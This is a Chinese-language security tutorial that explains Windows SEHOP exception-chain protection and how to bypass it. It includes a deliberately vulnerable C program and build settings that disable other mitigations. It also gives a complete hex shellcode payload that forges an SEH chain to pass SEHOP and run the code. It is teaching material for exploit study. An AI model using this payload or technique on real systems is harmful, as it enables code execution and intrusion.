# Windows下SEHOP保护机制详解及其绕过 - 先知社区

Windows下SEHOP保护机制详解及其绕过

- - -

通过溢出劫持程序流程，跳转到我们想要的地址去执行指令，对于我们来说已经很简单了，我们前面几篇文章也介绍了一些保护方式，也介绍了其绕过方式，回想一下我们攻击异常处理的时候，在开启了保护的前提下，攻击也似乎也不是很困难，前面文章还介绍了专门针对于异常处理的保护方式SafeSEH：[点击这里可查看详解](https://xz.aliyun.com/t/13849?time__1311=mqmxnQG=0QqCqYKDsD7mi51DatcDDvex&alichlgref=https://xz.aliyun.com/u/74789)，  
SafeSEH是建立了一张安全SEH表，在调用异常处理之前与安全SEH表中的指针进行比对，我们也有很多绕过方式。微软的天才工程师发现了问题，于是又写出了一种针对于异常处理的保护：SEHOP。我们来看看SEHOP的细节：

# 一.SEHOP保护详解

我们知道在这之前，已经有了一种对SEH的保护方式：安全SEH表，那么SEHOP又该来怎样保护SEH呢？  
我们先来看看程序中SEH异常处理的保存方式：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229174628-692ce382-d6e7-1.png)

想一想我们通过溢出，覆盖异常处理地址的时候，先是将指向下一个SEH处理函数的指针覆盖，然后才能覆盖掉当前异常处理指针，那我们有没有办法像GS那样，在调用SEH之前，来检查指向下一个SEH处理函数的指针有没有被覆盖，如果被覆盖掉了，说明当前异常处理指针已经被覆盖。  
这就为SEHOP保护提供了思路：SEHOP是通过检查SEH处理链的完整性来进行检测的，比如说，我们覆盖掉当前程序栈中的SEH处理函数指针，那么在它之前的指向下一个SEH处理函数的指针必然被先覆盖掉，我们根据被覆盖后的地址去寻找，发现这条链断掉了，那我们就可以肯定地说：当前程序发生了溢出，并且覆盖了SEH处理函数指针，由此，SEHOP便诞生了。SEHOP保护机制就是：顺着SEH异常处理指针一直找下去，如果说最终的那个SEH处理函数是系统预定的终极异常处理函数，那说明SEH异常处理链完整，验证通过，如果不是，则会验证失败，直接退出。

# 二.SEHOP保护绕过方式分析

通过前面的介绍，我们已经对SEHOP保护方式有了了解，那我们就来想想我们该如何绕过该保护？这里给出一点思路：

1.  先来看看使用最简单的栈溢出，覆盖返回地址，是否可以成功
2.  如果程序存在虚函数，观察是否可以通过攻击虚函数来攻击
3.  观察程序其他函数是否存在漏洞，如果说存在漏洞，且未开启SEHOP，那我们就可以轻松完成攻击了
4.  如果说都无法完成攻击的话，那我们就来正面硬刚SEHOP吧，既然SEHOP是检查SEH异常处理链的完整性，那我们就来构造一个SEH异常处理链，让SEHOP检查通过，我们就可以完成攻击了。  
    \# 三.SEHOP绕过方式详解  
    \## 1.覆盖返回地址  
    这种攻击方式就算是不了解任何保护，也可以轻松绕过。  
    绕过方法就是：查看当前堆栈，找到缓冲区起始地址与ebp的距离，然后构造payload，覆盖到ebp，然后将返回地址覆盖到我们的跳板地址或者ShellCode地址就可以完成攻击了。

| szBuffer | 存在溢出的缓冲区地址 |
| --- | --- |
| ... | ... |
| ... | ... |
| ... | ... |
| ebp | ... |
| 0xxxxx | 返回地址 |

这种方式非常简单，如果说还是有不了解的，可以看看这篇博客：[缓冲区溢出攻击的原理分析及防范](https://blog.csdn.net/qq_57335073/article/details/130712911)

## 2.攻击虚函数

这种方式跟前面的覆盖返回地址相差不大，也可以轻松做到，这里来说一说思路：  
首先，找到产生溢出的缓冲区，找到与this指针的距离，然后布置payload，将this指针指向原始参数（注意一定是原始参数，不然会出错），即可将虚函数指针指向我们的ShellCode，这种方式我们在介绍GS保护方式的时候详细介绍过：[Windows下GS保护机制详解及其绕过](https://xz.aliyun.com/t/13696?time__1311=mqmxnQ0QW8i=D/D0Dx2DUrFmbDt1Ix5x&alichlgref=https://xz.aliyun.com/u/74789)  
由于比较简单，这里不再赘述。

## 3.正面绕过SEHOP：构造SEH异常处理链

我们知道SEHOP是通过检测SEH异常处理链的完整性来检测的，检测的时候，如果SEH异常处理链的尾端是系统预定好的终极异常处理，即可通过检测，那我们可不可以构造一条SEH异常处理链，从而通过检测，执行我们的ShellCode呢？答案是可以的，我们来详细看看这种攻击方式：  
我们先来写一段存在漏洞的代码：

```plain
#include <stdio.h>
#include <Windows.h>

char ShellCode[500];

DWORD MyException() {
    printf("This is My Exception!");
    getchar();
    return 1;
}

void test(char* szBuffer) {
    char str[200]{ 0 };
    memcpy(str, szBuffer,216);
    int zero = 0;
    __try {
        zero = 5 / zero;
    }
    __except (MyException()) {};
}

int main() {

    HANDLE hFile = CreateFileA(
        "G:\\漏洞原理\\SEHOP\\Debug\\111.txt",
        GENERIC_READ,
        NULL, NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    DWORD dwReadSize = 0;
    ReadFile(hFile, ShellCode, 500, &dwReadSize, NULL);
    test(ShellCode);

    return 0;
}
```

然后我们配置项目属性，由于本篇文章主要介绍SEHOP保护机制，所以将其他保护机制关闭。

1.  在C/C++目录下，常规属性里，关闭SDL检查：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301121848-cd52e924-d782-1.png)

1.  然后在C/C++目录下，代码生成属性里面，将基本运行时检查设置为默认值，将运行库设置为MTD，关闭GS保护，关闭控制流防护，禁用Spectre缓解

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301122019-039d792c-d783-1.png)

1.  然后在链接器目录下，高级属性里，关闭数据执行保护，关闭随机基址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301122421-93d9d8be-d783-1.png)

我们来观察一下这个程序：  
test函数中存在明显的栈溢出，我们可以通过超长字符串，溢出到程序的SEH异常处理，然后test函数中制造了一个除零异常，会调用我们的异常处理。

然后我们将程序通过调试器打开，看看程序的具体情况：  
test函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301123720-644594ba-d785-1.png)

可以发现，str缓冲区距离ebp有`0xE0`个字节的距离，然后我们来看看异常处理：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301150151-947f436a-d799-1.png)

那既然SEHOP就是检查SEH异常处理链是否完整，那我们就来手动走一下这个异常处理链，来加深我们的印象。

1.  首先我们来看看距离当前栈最近的SEH异常处理：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301150235-aebe0054-d799-1.png)

可以看到，`SEH_Record[1]`的指针指向`0x19FF54`对照前面的SEH链，发现正好对应上，然后我们再来看看`SEH_Record[1]`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301150834-847eb314-d79a-1.png)

在`SEH_Record[1]`处，保存着指向`SEH_Record[2]`的指针，为`0x19FFCC`，对照前面的SEH链，发现正好对应上，然后我们再顺着看看`SEH_Record[2]`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301150724-5ae572a4-d79a-1.png)

可以看到这里指向了`SEH_Record[3]`，为`0x19FFE4`，我们顺着找下去。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301150752-6b8c86ec-d79a-1.png)

可以看到这里异常处理链结束了（指针域为0xFFFFFFFF），而SEH异常处理指针指向`0x76F692C5`，而这个异常处理正好就是Ntdll里的RtlCaptureContext+E5的位置，也就是系统预定的终极异常处理。  
由此看来，我们的异常处理链是完整的，能够通过SEHOP的验证。  
那么我们现在就来尝试攻击一下这个程序，我们能很简单地覆盖掉`SEH_Record[0]`上的异常处理指针，但是那样的话，指向下一个异常处理的指针就会被破坏，也就是说SEH异常处理链不完整，这会被SEHOP保护机制检查出来，那我们就想着能不能将指向下一个异常处理的指针直接指向链表最后的那一块，这样就能很轻松地让SEHOP保护机制验证通过。  
有了这个思路，我们就来布置一下我们的Payload：

| ShellCode | \\x90填充 | 0x19FFE4（SEH异常处理链最后一块地址） | 指向我们的ShellCode |

可以看到，我们的str缓冲区起始地址为`0x0019FDB4`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301130046-aa6e2152-d788-1.png)

我们再来看看`SEH_Record[0]`的地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301130312-01092b88-d789-1.png)

可以看到我们的`SEH_Record[0]`地址为`0x19FE84`，我们知道了我们的Payload所需的大小，我们就来布置Payload。  
这里给出我的Payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SEHOP\Debug\111.txt
// Address : 0 (0x0)
// Size    : 216 (0xD8)
//------------------------------------------------------------
unsigned char hexData[216] = {
    0xBE, 0xE8, 0x88, 0x3C, 0xFD, 0xD9, 0xD0, 0xD9,
    0x74, 0x24, 0xF4, 0x5A, 0x33, 0xC9, 0xB1, 0x30,
    0x31, 0x72, 0x13, 0x03, 0x72, 0x13, 0x83, 0xEA,
    0x14, 0x6A, 0xC9, 0x01, 0x0C, 0xE9, 0x32, 0xFA,
    0xCC, 0x8E, 0xBB, 0x1F, 0xFD, 0x8E, 0xD8, 0x54,
    0xAD, 0x3E, 0xAA, 0x39, 0x41, 0xB4, 0xFE, 0xA9,
    0xD2, 0xB8, 0xD6, 0xDE, 0x53, 0x76, 0x01, 0xD0,
    0x64, 0x2B, 0x71, 0x73, 0xE6, 0x36, 0xA6, 0x53,
    0xD7, 0xF8, 0xBB, 0x92, 0x10, 0xE4, 0x36, 0xC6,
    0xC9, 0x62, 0xE4, 0xF7, 0x7E, 0x3E, 0x35, 0x73,
    0xCC, 0xAE, 0x3D, 0x60, 0x84, 0xD1, 0x6C, 0x37,
    0x9F, 0x8B, 0xAE, 0xB9, 0x4C, 0xA0, 0xE6, 0xA1,
    0x91, 0x8D, 0xB1, 0x5A, 0x61, 0x79, 0x40, 0x8B,
    0xB8, 0x82, 0xEF, 0xF2, 0x75, 0x71, 0xF1, 0x33,
    0xB1, 0x6A, 0x84, 0x4D, 0xC2, 0x17, 0x9F, 0x89,
    0xB9, 0xC3, 0x2A, 0x0A, 0x19, 0x87, 0x8D, 0xF6,
    0x98, 0x44, 0x4B, 0x7C, 0x96, 0x21, 0x1F, 0xDA,
    0xBA, 0xB4, 0xCC, 0x50, 0xC6, 0x3D, 0xF3, 0xB6,
    0x4F, 0x05, 0xD0, 0x12, 0x14, 0xDD, 0x79, 0x02,
    0xF0, 0xB0, 0x86, 0x54, 0x5B, 0x6C, 0x23, 0x1E,
    0x71, 0x79, 0x5E, 0x7D, 0x1F, 0x7C, 0xEC, 0xFB,
    0x6D, 0x7E, 0xEE, 0x03, 0xC1, 0x17, 0xDF, 0x88,
    0x8E, 0x60, 0xE0, 0x5A, 0xEB, 0x9F, 0xAA, 0xC7,
    0x5D, 0x08, 0x73, 0x92, 0xDC, 0x55, 0x84, 0x48,
    0x22, 0x60, 0x07, 0x79, 0xDA, 0x97, 0x17, 0x08,
    0xDF, 0xDC, 0x9F, 0xE0, 0xAD, 0x4D, 0x4A, 0x07,
    0xE4, 0xFF, 0x19, 0x00, 0xB4, 0xFD, 0x19, 0x00 
};
```

然后可以看到，我们的SEH异常处理指针被我们成功覆盖，SEH异常处理链也伪造完成：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301152714-1fe6a68e-d79d-1.png)

关于SEHOP的介绍我们就介绍到这里，关于伪造SEH异常处理链表的伪造，如果还有不懂的，可以参考一下这篇博客[内存保护机制及绕过方法——通过伪造SEHOP链绕过SEHOP保护机制](https://www.cnblogs.com/zhang293/p/9052261.html) 。
